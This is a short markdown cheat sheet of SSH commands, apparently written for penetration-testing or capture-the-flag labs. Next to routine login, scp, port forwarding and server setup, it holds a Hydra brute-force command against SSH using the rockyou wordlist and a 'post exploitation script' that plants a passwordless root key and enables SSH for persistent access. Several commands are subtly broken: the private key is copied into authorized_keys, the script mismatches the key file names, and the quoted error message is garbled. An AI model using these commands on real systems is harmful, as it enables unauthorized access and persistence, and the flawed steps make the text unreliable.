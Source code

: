 # SSH

## Remote login :
### How it's supposed to be :
```bash
ssh username@ip
# require password
```

### How it can also be :
```bash
# require id_rsa private key
chmod 600 id_rsa
ssh -i <private id_rsa file> <username>@<ip>
# doesn't require a password
```

## Some bruteforce w/ Hydra :
This take long time  
```bash
hydra -t 16 -l USERNAME -P /usr/share/wordlists/rockyou.txt -vV 10.10.230.250 ssh
```


## ERROR handling :
If you get an error saying ```Unable to negotiate with <IP> port 22: no matching how to key 
	type found. Their offer: ssh-rsa, ssh-dss this is because OpenSSH have deprecated ssh-rsa.```  
Then, add ```-oHostKeyAlgorithms=+ssh-rsa``` to your command to connect.


## Useful commands :

Download from target
```bash
scp mission24@<IP>:/tmp/remote.txt .
```

## Some port forwarding
On target -> We look at uncommon running ports with :
```bash
ss -tunlp 
```

On premises we can forward the remote port to our localhost 10,000 port
```bash
ssh -L <remote active port>:localhost:10000 <username>@<ip>
```
Then, go to firefox and type ```http://localhost:10000```

## KEY GENERATION : 
```bash
mkdir ~/.ssh
cd ~/.ssh
ssh-keygen
cat id_rsa > authorized_keys
```

## START AN SSH SERVER

```bash
cd /etc/ssh
mkdir default-keys
mv ssh_host_* default-keys
dpkg-reconfigure openssh-server
```
Then, we can start the service with systemctl
```bash
systemctl start ssh.service
```


## POST EXPLOITATION SCRIPT :
```bash
# Creating root' ssh keys
mkdir /root/.ssh/
cd /root/.ssh/
rm /root/.ssh/*
ssh-keygen -f /root/.ssh/id-rsa -N "" 

cat /root/.ssh/id_rsa.pub > /root/.ssh/authorized_keys

# Enabling ssh.service
mkdir -p /etc/ssh/default-keys
cd /etc/ssh/
mv /etc/ssh/ssh_host_* /etc/ssh/default-keys/
dpkg-reconfigure openssh-server
systemctl enable ssh.service
systemctl start ssh.service
```
